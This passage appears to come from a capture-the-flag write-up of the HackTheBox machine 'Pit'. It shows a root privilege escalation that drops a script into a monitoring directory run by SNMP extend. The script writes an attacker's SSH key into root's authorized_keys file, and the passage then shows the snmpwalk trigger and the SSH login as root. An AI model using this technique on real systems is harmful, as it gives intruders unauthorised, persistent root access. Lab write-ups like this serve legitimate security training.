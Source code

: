 

There's some kind of permission denied on `ping` (last two lines
starting with `NET-SNMP`), which is weird, but feels like SELinux. It
does show it tried to run the script.

### Shell

I'll try a script that will write an SSH key into root's
`authorized_keys` file:



    [michelle@pit monitoring]$ echo 'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" | tee /root/.ssh/authorized_keys && echo "it worked!"' > check_0xdf.sh



I use `tee` and the additional `echo` so that the output will be visible
in the SNMP output to see if it worked.

On triggering that, the output looks good:



    oxdf@parrot$ snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
    NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
    NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor   
    NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING:           
    NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING:      
    NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
    NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
    NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
    NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
    NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    it worked!
    Memory usage
                  total        used        free      shared  buff/cache   available
    Mem:          3.8Gi       449Mi       3.0Gi       8.0Mi       394Mi       3.2Gi 
    ...[snip]...



SSH will work to connect with the matching private key as root:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.241
    Web console: https://pit.htb:9090/ or https://10.10.10.241:9090/

    Last login: Mon May 10 11:42:46 2021
    [root@pit ~]# 



And grab that flag:
